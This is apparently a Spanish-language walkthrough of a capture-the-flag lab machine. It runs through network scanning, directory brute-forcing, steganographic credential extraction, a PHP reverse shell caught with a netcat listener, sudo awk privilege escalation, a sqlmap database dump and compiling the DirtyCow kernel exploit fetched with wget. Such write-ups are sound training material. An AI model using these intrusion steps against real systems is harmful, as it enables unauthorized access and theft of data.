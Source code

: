 **1.- Escaneo de la red local:**
Para escanear la red local para identifica la IP de la máquina, para ello usaremos el siguiente comando:

arp-scan --localnet
<img src="Pasted image 20240225174411.png">

**2.- Realizamos un escaneo de puertos**
Para realizar el escaneo de puertos hay que hacer un nmap.

nmap -sS -sV (ip de la máquina)
<img src="Pasted image 20240225174515.png">

Hemos podido localizar que tiene el puerto 80 abierto, podemos decir que tiene una web corriendo.
Para cojer un poco más de información sobre la web relizaremos el siguiente comando.
<img src="Pasted image 20240225174632.png">

una vez tenemos información sobre ella, entraremos a la web desde el navegador.
<img src="[Pasted image 20240225174712.png">

**3.- Mirar archivos o directorios ocultos**

Miramos si hay archivos ocultos gracias a la herramienta gobuster. Para ello introducimos el siguiente comando.

gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.76
<img src="Pasted image 20240225175144.png">

vemos una carpeta un tanto sospechosa, esta se llama /secret. Para abrirla la pondemos en el navegador al lado de la ip

(ip)/secret
<img src="Pasted image 20240225175309.png">

vemos que hay una imagen, la descargamos para analizarla. Para ello usaremos la siguiente herramienta stegseek.

stegseek doubletrouble.jpg -wl /usr/share/wordlists/rockyou.txt -xf img
<img src="Pasted image 20240225175639.png">

podemos ver que se nos ha descargado una imagen. Miramos el contenido de la imagen. Para ello usaremos el cat.

cat img
<img src="Pasted image 20240225175806.png">

Esto nos da las credenciales del login de la web. Entonces iniciaremos sesión.
<img src="Pasted image 20240226225242.png">


y entramos a la configuracion del usuario
<img src="Pasted image 20240226225312.png">

aqui subiremos un archivo php para ejecutar una reverse shell

al subirlo nos saldrá esto, entonces tendremos que ir a la carpeta /uploads/users
<img src="Pasted image 20240226225539.png">
![[Pasted image 20240226225600.png]]

a partir de esto nos pondremos escuchando con netcat en el puerto 4444

nc -lnvp 4444
<img src="Pasted image 20240226225700.png">

ahora le daremos click al archivo que acabamos de subir y obtendremos conexion
<img src="Pasted image 20240226225839.png">
ya tenemos control, para ver la ruta haremos "script /dev/null -c bash"
<img src="Pasted image 20240226225948.png">

ejecutamos el comando sudo -l para ver si tenemos algun permiso de administrador, y nos damos cuenta de que nos muestra el siguiente mensaje
<img src="Pasted image 20240226230104.png">
Para escalar privilegios tendremos que escribir el siguiente comando
sudo awk 'BEGIN {system("/bin/bash")}'
<img src="Pasted image 20240226230216.png">
con esto ya tenemos permiso de administrador, nos situamos en la carpeta root y vemos que tenemos otra ova, entonces la descargamos en nuestro ordenador local con el comando python -m http.server 80

y la ejecutamos
vemos que tenemos un login de administrador
<img src="Pasted image 20240226230456.png">

para sacar las passwords de administrador ejecutaremos el siguiente comando
sqlmap -u http://10.0.0.28/index.php --forms --current-db -D doubletrouble -T users --dump
<img src="Pasted image 20240226231147.png">

ahora entraremos via ssh en lel usuario clapton
<img src="Pasted image 20240226231309.png">

ahora cojeremos un exploit para poder escalar privilegios: [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

los descargaremos desde local con el comando wget https://github.com/FireFart/dirtycow/blob/master/dirty.c
<img src="Pasted image 20240226231534.png">

lo subiremos a un servidor python y lo descargaremos en el ssh
<img src="[Pasted image 20240226231605.png">

<img src="Pasted image 20240226231736.png">

ya de paso vemos que tenemos un txt y lo abrimos y vemos que es la primera flag
<img src="Pasted image 20240226231812.png">

una vez tenemos el exploit lo compilamos con el siguiente comando
gcc -pthread dirty.c -o dirty -lcrypt
<img src="Pasted image 20240226232420.png">

una vez compilado lo ejecutamos
<img src="Pasted image 20240226232504.png">
elegimos nueva contraseña y nos da un usuario llamado firefart que entraremos via ssh y escribiremos la nueva contraseña
<img src="[Pasted image 20240226232623.png">
 y miramos que contiene y ejecutamos la flag
<img src="Pasted image 20240226232701.png">
